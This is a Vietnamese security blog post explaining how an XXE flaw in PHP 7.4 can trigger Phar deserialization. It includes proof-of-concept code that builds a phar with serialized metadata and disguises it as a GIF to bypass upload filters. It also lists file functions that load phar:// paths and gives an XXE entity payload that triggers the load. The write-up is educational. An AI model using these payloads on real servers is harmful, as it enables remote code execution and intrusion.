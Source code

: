 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "Từ XXE Attack đến Phar Deserialization trong PHP 7.4"
subtitle: ""
summary: "Mình tình cờ đọc được bài Out of Hand :: Attacks Against PHP Environments - phân tích những điểm đáng chú ý về bảo mật của PHP 7.4. Trong bài có đoạn viết về cách tận dụng lỗi XXE để kích hoạt Phar Deserialization. Mình sẽ trình bày lại theo cách hiểu của mình."
authors: []
tags: []
categories: []
date: 2020-10-27T00:55:55+07:00
lastmod: 2020-10-27T00:55:55+07:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```

Mình tình cờ đọc được bài <a href="https://srcincite.io/assets/out-of-hand-attacks-against-php-environments.pdf">Out of Hand :: Attacks Against PHP Environments</a> - phân tích những điểm đáng chú ý về bảo mật của PHP 7.4. Trong bài có đoạn viết về cách tận dụng lỗi <strong>XXE</strong> để kích hoạt <strong>Phar Deserialization</strong>. Mình sẽ trình bày lại theo cách hiểu của mình.</p>

## 1. Điều kiện khai thác lỗi
<ul>
<li>Tồn tại lỗi <strong>XXE</strong> (<code>libxml_disable_entity_loader=False</code>)</li>
<li><code>phar.readonly</code> phải được <code>disable</code> (mặc định trong php là <code>enable</code>).</li>
</ul>

## 2. Phar Deserialize

<p>Một cách tóm lược, <strong>Phar - PHP Archive</strong> là một dạng nén ứng dụng php vào 1 file thực thi duy nhất. Nó có thể được load thông qua wrapper <strong>phar://</strong>. Kỹ thuật <strong>Phar Deserialization</strong> là việc tận dụng unserialize phần Metadata trong Phar Manifest Format file để kích hoạt POP chains (cách hiện thực unserialize của Phar wrapper không phải trực tiếp thông qua <strong>unserialize()</strong> nên giữa chúng có đôi chút khác nhau). Tùy thuộc vào cách vận dụng mà việc deserialize có thể dẫn đến <strong>RCE</strong>.<br>
<img src="Screenshot from 2020-10-03 14-50-08.png" alt="Screenshot-from-2020-10-03-14-50-08"></p>
<p><strong>Minh họa kịch bản tấn công Phar Deserialize</strong>:</p>
<ol>
<li>Attacker tạo file <code>phar.phar</code> để upload lên server

```php
<?php $phar= new Phar('phar.phar'); // Khởi tạo phar
$phar->startBuffering();
$phar->addFromString('phar.txt', '<valid>test</valid>'); // Thêm file data vào phar
$phar->setStub('<?php __HALT_COMPILER(); ? >'); // Thiết lập STUB cho phar
class AnyClass{}
$object = new AnyClass; // Khởi tạo đối tượng POP chains
$object->data = "pwned!"; // Truyền data
$phar->setMetadata($object); // Thiết lập Metadata cho phar, đối tượng sẽ được lưu dưới dạng serialized trong phar
$phar->stopBuffering();
```
</li>
<li>Server gọi một hàm file operations, ví dụ <code>file_exist()</code>, thì sẽ kích hoạt deserialize bên trong <strong>Metadata</strong>

```php
<?php
libxml_disable_entity_loader(False);
// Class được tận dụng để khai thác POP chains
class AnyClass{
    function __destruct() {
        die($this->data);
    }
}
file_exists('phar://.//phar.phar/test.txt'); // Load file phar
</code></pre>
</li>
</ol>
<ul>
<li>Ở <strong>(1)</strong>, để thực hiện kỹ thuật này nay, cần phải đưa file phar lên phía server trước. Có thể thông qua tính năng upload file, ảnh,... Điểm cộng là <code>phar://</code> xử lý file không phụ thuộc vào phần mở rộng, và phần đầu format file phar là vùng <strong>STUB</strong> có thể được chỉnh sửa thành signature của file ảnh để bypass MIME và file extension restriction:<pre><code class="language-php">$phar = new Phar("phar.gif");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
...
rename('phar.phar','phar.gif');
```
</li>
<li>Ở <strong>(2)</strong>, có rất nhiều hàm file operation có thể tận dụng wrapper <code>phar://</code>. Dưới đây là một số gợi ý:

```php
include('phar://phar.phar/test.txt');
file_get_contents('phar://phar.phar/test.txt');
file_put_contents('phar://phar.phar/test.txt', '');
copy('phar://phar.phar/test.txt', '');
file_exists('phar://phar.phar/test.txt');
is_executable('phar://phar.phar/test.txt');
is_file('phar://phar.phar/test.txt');
is_dir('phar://phar.phar/test.txt');
is_link('phar://phar.phar/test.txt');
is_writable('phar://phar.phar/test.txt');
fileperms('phar://phar.phar/test.txt');
fileinode('phar://phar.phar/test.txt');
filesize('phar://phar.phar/test.txt');
fileowner('phar://phar.phar/test.txt');
filegroup('phar://phar.phar/test.txt');
fileatime('phar://phar.phar/test.txt');
filemtime('phar://phar.phar/test.txt');
filectime('phar://phar.phar/test.txt');
filetype('phar://phar.phar/test.txt');
getimagesize('phar://phar.phar/test.txt');
exif_read_data('phar://phar.phar/test.txt');
stat('phar://phar.phar/test.txt');
lstat('phar://phar.phar/test.txt');
touch('phar://phar.phar/test.txt');
md5_file('phar://phar.phar/test.txt');
gzfile('phar://phar.phar/test.txt');
gzopen('phar://phar.phar/test.txt','r');
readgzfile('phar://phar.phar/test.txt');
pg_trace('phar://phar.phar/test.txt');
ftp_get('phar://phar.phar/test.txt');
ftp_get($conn_id, 'phar://phar.phar/test.txt', $server_file);
ftp_nb_get($my_connection, 'phar://phar.phar/test.txt', "whatever", FTP_BINARY);
error_log('phar://phar.phar/test.txt');
```
</li>
</ul>
<p>Nhiều phết :v.</p>
<p>Như vậy, chỉ cần <code>phar.readonly=0</code> và attacker kiểm soát file path của một trong những hàm trên thì có thể thực hiện <strong>Phar Deserialization</strong>.</p>

## 3. XXE Trigger Phar Deserialization

<p>Tuy nhiên, không phải lúc nào chúng ta cũng có thể kiểm soát được file path trong các hàm trên. Việc tìm ra càng nhiều vector load <code>phar://</code> wrapper khác nhau, sẽ càng giúp tăng khả năng khai thác thành công. Giả sử chúng ta phát hiện 1 vector tấn công <strong>XXE</strong> trên server, không có <code>expect://</code> wrapper để <strong>RCE</strong>, không có service nào để tận dụng <strong>SSRF</strong>, thì lúc này việc có thể kích hoạt <strong>Deserializeation</strong> sẽ tăng rất nhiều cơ hội để leo thang impact.</p>
<p>Với cùng kịch bản tấn công ở phần 2, nhưng thay vì kiểm soát được input của <code>file_exists</code>, mà server lại tồn tại lỗi XXE, thì attacker vẫn có thể tấn công <strong>Phar Deserialzation</strong> thông qua <code>libxml</code>:</p>

```php
$xml = '<!DOCTYPE r [<!ELEMENT r ANY><!ENTITY sp SYSTEM "phar://phar.gif/test.txt"> ]><r>&amp;sp;</r>';
$test = new SimpleXMLElement($xml, LIBXML_NOENT, 0);
// Hoặc
simplexml_load_string($xml, LIBXML_NOENT);
// Hoặc
$dom = new DOMDocument();
$dom->loadXML($xml,LIBXML_NOENT);
```
<ul>
<li>Bên trong <a href="https://github.com/php/php-src/blob/master/ext/libxml/libxml.c">libxml.c</a> có đoạn gọi:</li>
</ul>

```c
xmlParserInputBufferCreateFilenameDefault(php_libxml_input_buffer_create_filename);
...
php_libxml_input_buffer_create_filename(const char *URI, xmlCharEncoding enc);
...
{
    ...
	if (LIBXML(entity_loader_disabled)) {
		return NULL;
	}
    ...
    context = php_libxml_streams_IO_open_read_wrapper(URI);
```

<p>là lý do vì sao cần <code>libxml_disable_entity_loader=False</code>. Vì trình độ pwn ~= 0 nên mình cũng không đào sâu hơn cách <code>libxml</code> thực thi nữa, mà chỉ trình bày ở mức vận dụng là chính.</p>
<p>Rõ ràng việc thực thi được <strong>deserialize</strong> sẽ dễ dẫn đến những impact cao hơn. Có thể vận dụng các Gadget Chains đã được tìm thấy trước đó trong các framework như Laravel, Wordpress, CodeIgniter, ... (<a href="https://github.com/ambionics/phpggc">PHPGGC</a> hỗ trợ rất tốt cho việc này). Hoặc tự mình tìm một Gadget Chain mới luôn thì càng tuyệt vời! :d.</p>

## Kết luận

<p>Như vậy, mình vừa trình bày lại kỹ thuật <strong>Phar Deserialization</strong> với nhiều vector khác nhau, và một vector tấn công thông qua <strong>XXE</strong>. Đây sẽ là một hướng exploit đáng để thử khi tìm được lỗ hổng <strong>XXE</strong> trên hệ thống.</p>

## References

<ul>
<li><a href="https://raw.githubusercontent.com/s-n-t/presentations/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf">https://raw.githubusercontent.com/s-n-t/presentations/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf</a></li>
<li><a href="https://medium.com/@knownsec404team/extend-the-attack-surface-of-php-deserialization-vulnerability-via-phar-d6455c6a1066">https://medium.com/@knownsec404team/extend-the-attack-surface-of-php-deserialization-vulnerability-via-phar-d6455c6a1066</a></li>
<li><a href="https://files.ripstech.com/slides/PHP.RUHR_2018_New_PHP_Exploitation_Techniques.pdf">https://files.ripstech.com/slides/PHP.RUHR_2018_New_PHP_Exploitation_Techniques.pdf</a></li>
</ul>